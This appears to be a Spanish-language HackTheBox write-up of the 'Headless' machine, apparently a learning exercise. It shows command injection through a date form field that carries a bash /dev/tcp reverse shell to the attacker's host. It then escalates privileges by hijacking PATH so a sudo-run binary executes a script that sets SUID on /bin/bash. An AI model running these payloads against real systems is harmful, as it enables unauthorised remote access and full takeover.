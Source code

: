 ![](/assets/images/htb-writeup-headless/Pasted image 20240601113658.png)

intento probar inyecciones del sistema operativo, en este caso Linux.

![](/assets/images/htb-writeup-headless/Pasted image 20240601113757.png)

y vualá, logro ver directorios & archivos de la aplicación web, así que ya que tengo un **RCE** procedemos a enviarme una **Reverse Shell,** ganando acceso a la máquina.

Nos ponemos en escucha en nuestra máquina local.
```bash
nc -nlvp PORT
```

Payload para la reverse shell en la **DATA**:
```bash
date=2023-09-15D;bash+-c+"bash+-i+>/dev/tcp/10.10.x.x/PORT+0>%261"
```

![](/assets/images/htb-writeup-headless/Pasted image 20240601114145.png)

Ya tenemos la Reverse Shell, ya sólo quedaría darle tratamiento a la TTY, que sino sabes cómo mira este POST [((Click aquí))](https://4uli.github.io/tratamiento-tty/#)

# Escalada de Privilegios

como **dvir**, tenemos los siguiente permisos **SUDOERS**.

![](/assets/images/htb-writeup-headless/Pasted image 20240601114453.png)

podemos ejecutar sin proporcionar contraseña el binario "**syscheck**", y como el usuario que queramos, por lo que indago en búsqueda de posibles escalada de privilegios para este binario, pero no está contemplado en **GTFobins**, así que indago en su código fuente...

![](/assets/images/htb-writeup-headless/Pasted image 20240601114634.png)

veo que está ejecutando un script en **Bash** con su ruta relativa, por lo que podemos llevar a cabo un **Path Hijacking**, para crearnos un .**sh** con el mismo nombre, pero para hacer lo que nosotros queramos.

1. Vamos a un directorio con permiso de escritura y creamos el archivo.
```bash
cd /tmp
nano initdb.sh
``` 

dentro tendrá lo siguiente para darle permiso **SUID** a la bash, y poder ejecutarla como ROOT.
```bash
#/bin/bash
chmod u+s /bin/bash
```

2. Cambiamos la variable de entorno **PATH** para qué primero lea de nuestro initdb.sh, en vez del real.
```bash
export PATH=/tmp/:$PATH
```

3. Volvemos a ejecutar el "**syscheck**" como Root
```bash
sudo /usr/bin/syscheck
```

4. Ejecutamos la bash como Root.
```bash
bash -p
``` 

![](/assets/images/htb-writeup-headless/Pasted image 20240601115219.png)
